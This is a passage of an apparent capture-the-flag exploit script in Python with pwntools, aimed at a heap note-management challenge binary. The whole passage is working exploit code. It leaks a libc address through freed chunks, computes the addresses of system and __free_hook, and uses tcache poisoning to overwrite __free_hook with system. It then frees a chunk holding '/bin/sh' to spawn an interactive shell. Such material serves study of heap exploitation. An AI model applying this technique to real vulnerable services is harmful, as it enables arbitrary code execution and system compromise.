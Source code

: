 ```python
    r.send(b'4')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

# Leak libc address
add_note(12, 0x420)
add_note(13, 0x420)
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
r.recv(0x420 - 0x8)

## Another Way to Write system_addr to __free_hook
add_note(1, 0x18)
add_note(2, 0x18)
del_note(2)
del_note(1)
write_note(1, p64(free_hook) + p64(0) * 2)
bin_sh = u64(b'/bin/sh\x00')
write_note(2, p64(bin_sh))
add_note(3, 0x18)
add_note(4, 0x18)
write_note(4, p64(system_addr))
raw_input()
del_note(2)

r.interactive()
```
:::